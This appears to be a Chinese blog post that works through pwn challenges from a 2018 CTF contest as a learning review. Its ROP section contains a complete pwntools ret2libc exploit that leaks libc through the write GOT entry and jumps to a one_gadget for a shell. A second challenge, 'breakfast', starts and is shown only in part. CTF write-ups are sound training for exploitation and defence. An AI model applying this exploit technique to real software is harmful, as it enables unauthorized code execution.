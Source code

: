 ```yaml
---
layout: post
title:  "铁三福建赛区pwn回顾"
date:   2018-09-12 19:12:00
categories: WriteUp
tags: WriteUp PWN 铁三
---
```


* content
{:toc}


建了新博客开始还是写点东西存着，不然空空的感觉也不是很好，刚好看到文涛学长给我的铁三PWN题，当时我连涛神写的exp都看不懂，现在看看自己当初真的太菜了，所以现在重新看一遍题目来检验现在的实力





## ROP


### 思路

简单看了一遍程序，vuln函数明显的栈溢出，利用空间贼大，checksec检测下只开了NX，
直接ret2libc做ROP来getshell
### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./rop')
elf = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('./libc32')

buf = 'a'*0x88
vuln_addr = 0x08048474
write_got = elf.got['write']
write_plt = elf.plt['write']
write_sym = libc.symbols['write']
bin_sh = libc.search('/bin/sh').next()
system_sym = libc.symbols['system']

leak = buf+'aaaa'+ p32(write_plt) +p32(vuln_addr)+ p32(1) + p32(write_got) + p32(0x4)
n.sendline(leak)
write_addr = u32(n.recv())
print hex(write_addr)

libc_base = write_addr - write_sym
system_addr = libc_base + system_sym
#one_gadget = 0x3a80c
one_gadget = 0x3ac5c + libc_base
payload = buf+ 'aaaa' + p32(one_gadget)
n.sendline(payload)

n.interactive()
```


## breakfast

### 思路

简单的审一遍代码发现

![这里写图片描述](https://github.com/Nepire/Nepire.github.io/blob/master/images/20180916113547.jpg)

write输出的并不是ptr[idx],而是*ptr[idx]